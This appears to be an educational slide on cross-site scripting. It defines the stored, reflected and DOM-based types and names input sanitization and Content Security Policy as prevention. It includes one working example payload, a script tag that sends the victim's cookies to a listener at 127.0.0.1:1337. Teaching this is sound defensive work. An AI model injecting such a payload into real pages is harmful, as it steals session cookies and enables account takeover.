

# Cross-Site Scripting (XSS)
This is when a malicious script is injected into a webpage, usually through a vulnerable input field. When another user visits that page, the script runs in their browser, potentially stealing cookies or session tokens, or performing other malicious actions.
Types:
Stored XSS – Malicious script is is stored on the server and executed when other users access the affected page or resource.
Reflected XSS – Malicious script is injected into a web application, and the server reflects it back to the user’s browser, executing the script.
DOM-based XSS – Malicious script is injected into the Document Object Model(DOM) of a webpage, and executed in the victim's browser, without involving the server.
<script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
Prevention: Input sanitization, Content Security Policy (CSP).